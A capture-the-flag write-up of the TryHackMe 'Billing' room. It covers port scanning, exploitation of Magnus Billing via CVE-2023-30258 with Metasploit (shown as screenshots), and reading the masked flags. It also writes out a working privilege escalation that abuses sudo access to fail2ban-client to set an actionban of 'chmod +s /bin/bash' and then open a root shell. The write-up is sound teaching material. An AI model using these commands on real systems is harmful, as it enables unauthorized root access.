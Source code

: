 ```yaml
---
title: Write-up — Billing
date: 2025-07-16 10:00:00 AM
categories: [Write-up, Try Hack Me]
tags: [Try Hack Me, Write-up, ctf]
image: 'assets/img/articles/Billing.png'
description: "Explore my step-by-step guide to the TryHackMe Billing room. Learn how to perform reconnaissance with RustScan and Nmap, exploit web app vulnerabilities, and escalate privileges using Fail2Ban. Perfect for cybersecurity enthusiasts and professionals."
---
```


> Walkthrough of room Billing from TryHackMe :
> https://tryhackme.com/room/billing

This room is designed to teach you about billing systems and how to exploit them. It covers various aspects of billing, including vulnerabilities, exploitation techniques, and privilege exploitation.

---

## Recon

We will start by some recon...

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExaG14ejdmY3dhd283Nm1obGswNGFuZDZvYmxndno5NXE5NXkzaWFmNiZlcD12MV9naWZzX3NlYXJjaCZjdD1n/i9cngh3Kw09GxlsrFP/giphy.gif)

```bash
$ rustscan -a $TARGET        
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
To scan or not to scan? That is the question.

[~] The config file is expected to be at "/home/hisoka/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.127.112:22
Open 10.10.127.112:80
Open 10.10.127.112:3306
Open 10.10.127.112:5038

...

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3306/tcp open  mysql   syn-ack ttl 63
5038/tcp open  unknown syn-ack ttl 63
```

We need to uncover the unknown service.

```bash
$ nmap -sC -sV $TARGET -p5038
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-15 17:15 CEST
Nmap scan report for billing.thm (10.10.127.112)
Host is up (0.14s latency).

PORT     STATE SERVICE  VERSION
5038/tcp open  asterisk Asterisk Call Manager 2.10.6

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.96 seconds
```

![You said asterix](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExeXU1eTFkMHB4bDRtbHc4OXlueXhhYnFodTRyNGN4OXozczE0MDhubSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/1Md9azxcgIyQ/giphy.gif)
_You said Asterix!!!_

So we have 4 services running:

| Port | Service  | Purpose  |
| ---- | -------- | -------- |
| 22   | ssh      |          |
| 80   | http     | Web      |
| 3306 | mysql    | Database |
| 5038 | asterisk | VoIP     |

Let's check the web page. It seems, we have a web application running on the server.

![Login page](assets/img/2025-07-16-THM-Billing/magnus-login-page.png){: w="600"}

The web page url contains the term *mbilling* (`/mbilling`). Probably link to a payment feature or something like that.
A quick search on Google help me to discover the name of the web app called **Magnus Billing** (same logo, use Asterisk can't be wrong).

![](assets/img/2025-07-16-THM-Billing/mbilling-google.png){: w="600"}

A great new is we have a cve (**CVE-2023-30258**) for our web app.

![](assets/img/2025-07-16-THM-Billing/exploit-db.png){: w="600"}

![](assets/img/2025-07-16-THM-Billing/metasploit-magnus-search.png){: w="600"}

And it's also available on metasploit!!!

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExa2Q0ZTZkZmlwMDZiZXZlNXU1Y2M3dW8wYWcwZDZuZzk1b2pqem95eCZlcD12MV9naWZzX3NlYXJjaCZjdD1n/BYul6RujgoRCryuCdL/giphy.gif)

A little config on the exploit to make it work.
![](assets/img/2025-07-16-THM-Billing/meterpreter-session.png){: w="600"}

## Initial access

```bash
$ whoami
whoami
asterisk

$ ls /home
ls /home
debian	magnus	ssm-user

$ ls /home/magnus
ls /home/magnus
Desktop    Downloads  Pictures	Templates  user.txt
Documents  Music      Public	Videos

$ cat /home/magnus/user.txt
cat /home/magnus/user.txt
THM{********************************}
```

And voila!

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExeXA2Z210MXB4bzBsODVwNmxreXYzNWQzaW10MXR1ODA5eWpuZDZhYSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/kxUhZ0TY46X1Dk48ru/giphy.gif)

## Privilege escalation

```bash
$ sudo -l
sudo -l
Matching Defaults entries for asterisk on ip-10-10-127-112:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-10-127-112:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

That means we can execute **`fail2ban-client`** with **sudo** rights.

Let's explain few things about **`fail2ban`**. Fail2Ban is an open-source intrusion prevention software framework designed to protect computer servers from brute-force attacks and other automated threats. Its primary purpose is to enhance the security of a system by monitoring log files for suspicious activity and **taking automated actions** to mitigate potential threats. For example, if a suspicious IP tries to connect to ssh server by brute-forcing the password, fail2ban can block the IP based on a criteria (like 10 connexion attempts).
So we can abuse `fail2ban-client` by setting an evil automated actions.

```bash
$ sudo /usr/bin/fail2ban-client status
sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:	8
`- Jail list:	ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd

$ sudo /usr/bin/fail2ban-client set sshd addaction evil
sudo /usr/bin/fail2ban-client set sshd addaction evil
evil

$ sudo /usr/bin/fail2ban-client set sshd action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set sshd action evil actionban "chmod +s /bin/bash"
chmod +s /bin/bash

$ sudo /usr/bin/fail2ban-client set sshd banip 1.2.3.4
sudo /usr/bin/fail2ban-client set sshd banip 1.2.3.4

$ /bin/bash -p
/bin/bash -p

bash-5.2# whoami
whoami
root
```

**Explanation**

- *Listing Jails*: The `status` command lists all active jails managed by Fail2Ban.
- *Adding an Action*: The `addaction` command adds a new action to the specified jail.
- *Setting the Payload*: The `actionban` command sets the script or command to be executed when an IP is banned.
- *Triggering the Payload*: The `banip` command triggers the `actionban` script, executing your payload with elevated privileges.
- `chmod +s /bin/bash`: sets the setuid bit on the Bash executable, allowing users to run it with the permissions of its owner, typically root.
- `/bin/bash -p`: to start a Bash shell with root privileges. The `-p` option ensures that the shell retains the elevated privileges.

```bash
bash-5.2$ whoami
whoami
root

bash-5.2$ ls /root
ls /root
filename  passwordMysql.log  root.txt

bash-5.2$ cat /root/root.txt
cat /root/root.txt
THM{********************************}
```

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExazBncDNpcTIxaTQ0N3E4Njhjb2NhZWQwdXhxOGxqamdhbmdocTJyeSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/STrEzUEFPWLsY/giphy.gif)

All flags down, mission passed.

Be proud of what you’ve accomplished.

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExejBueW15czhhbm82bGZydWlmbjc2ZHJxdHZ0eHE3MjAwNDhjZWh5OSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/Ju7l5y9osyymQ/giphy.gif)

See you soon!

> “Cybersecurity is a continuous cycle of protection, detection, response, and recovery.” — Chris Painter

## Comments
<script src="https://giscus.app/client.js"
        data-repo="Deomorphisme/Deomorphisme.github.io"
        data-repo-id="R_kgDONEIr-Q"
        data-category="General"
        data-category-id="DIC_kwDONEIr-c4CjomU"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="0"
        data-input-position="top"
        data-theme="preferred_color_scheme"
        data-lang="en"
        data-loading="lazy"
        crossorigin="anonymous"
        async>
</script>